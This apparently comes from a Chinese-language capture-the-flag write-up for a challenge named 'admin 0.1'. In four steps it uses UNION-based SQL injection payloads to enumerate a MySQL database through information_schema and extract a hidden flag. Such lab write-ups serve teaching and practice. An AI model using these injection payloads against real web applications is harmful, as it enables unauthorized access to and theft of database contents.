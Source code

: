 admin 0.1
===

本題中藏有第二個 Flag 所以需要開挖資料庫。  

### Step 1
首先由以下注入指令得知，該資料表有四個欄位。  
並且 2 的位置可直接輸出。  
```
\' union select 1,2,3,4#
```

藉由位置 2 輸出資料庫名稱。  
得到 `login_as_admin0` 。  
```
\' union select 1,database(),3,4#
```

### Step 2
接著再藉由資料庫名稱找資料表名稱  
得 `h1dden_f14g`  
```SQL
SELECT table_name 
FROM information_schema.tables 
WHERE table_schema="login_as_admin0"
limit 0,1
```
```
\' union select 1,(SELECT table_name FROM information_schema.tables WHERE table_schema="login_as_admin0" limit 0,1),3,4#
```

### Step 3
然後就可以找到欄位名稱  
得到 `the_f14g`  
```SQL
SELECT column_name 
FROM information_schema.columns
WHERE TABLE_NAME=h1dden_f14g 
LIMIT 0,1
```
```
\' union select 1,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME=h1dden_f14g limit 0,1),3,4#
```

### Step 4
到此已經掌握資料表、欄位名稱，便可以直接輸出資料內容。  

```=SQL
SELECT the_f14g
FROM h1dden_f14g
LIMIT 0,1
```
```
\'union select 1,(select the_f14g from h1dden_f14g limit 0,1),3,4#
```

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)